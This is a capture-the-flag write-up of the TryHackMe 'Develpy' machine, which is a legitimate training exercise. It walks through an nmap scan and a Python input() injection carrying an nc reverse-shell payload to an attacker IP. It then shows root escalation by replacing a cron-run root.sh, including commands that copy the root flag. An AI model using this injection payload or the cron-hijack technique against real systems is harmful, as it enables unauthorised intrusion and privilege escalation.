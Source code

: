 <img width="397" alt="2024-04-30 17_00_23-TryHackMe _ Develpy — Mozilla Firefox" src="https://github.com/Th3l3mic/WriteUps/assets/167564930/b1f1c599-2414-4763-9cf0-c7faceed8793">

<h2>Develpy is a free boot2root machine created by stuxnet, with medium difficulty level.</h2> 

After deploing machine  start nmap scan.

<img width="391" alt="2024-04-30 17_07_39-THM Browser-Based — Mozilla Firefox" src="https://github.com/Th3l3mic/WriteUps/assets/167564930/3fba4340-a7da-4295-9cee-f0cf74d11e78">


Nmap reveals two ports open:

<code>22 for ssh
10000 for snet-sensor-mgmt</code>

Lets try to find out what it is, and connect with that port in our browser. 
<br><img width="550" alt="2024-04-30 17_17_14-THM Browser-Based — Mozilla Firefox" src="https://github.com/Th3l3mic/WriteUps/assets/167564930/915fe513-0874-468f-926b-c3f990ed6bc4"></br>


It looks like some python script running  behind the scenes.
After connecting via telnet it seems that script asking us for number doing some ping requests as many times as we provide.
<img width="417" alt="2024-04-30 17_18_27-THM Browser-Based — Mozilla Firefox" src="https://github.com/Th3l3mic/WriteUps/assets/167564930/23126157-bb1f-4844-a121-3216f8733644">


So I found very helpful article made it by 
<a href="(https://security.szurek.pl/en/why-you-shouldnt-use-input-function/)">Kacper Szurek</a> how to abuse python input with incjections and prepare payload with reverse shell:

<code>__import__('os').system('nc -e /bin/bash 10.10.192.242 1234')</code>

set netcat listener on port 1234 i go! We've got a shell!

Type ls to list files and We found users flag, there's also interesting files in this directory that could potentially give us root. Sudo -l dont work, let's check cronjobs. It seems that every minute root.sh is excecuted with root permissions. We can't overwrite this file, but we can remove it and created new one with our reverse shell... just one thing, we must gives x permission to this one, set our listener and boom, We're root now!


<img width="535" alt="2024-04-30 18_29_22-THM Browser-Based — Mozilla Firefox" src="https://github.com/Th3l3mic/WriteUps/assets/167564930/7c8e5cc0-f507-4f43-8d8d-b223350ba104">

Theres one simplest way to get to root flag:

<code>rm root.sh
echo 'cp /root/root.txt /home/king/root.txt' > root.sh </code>

T.
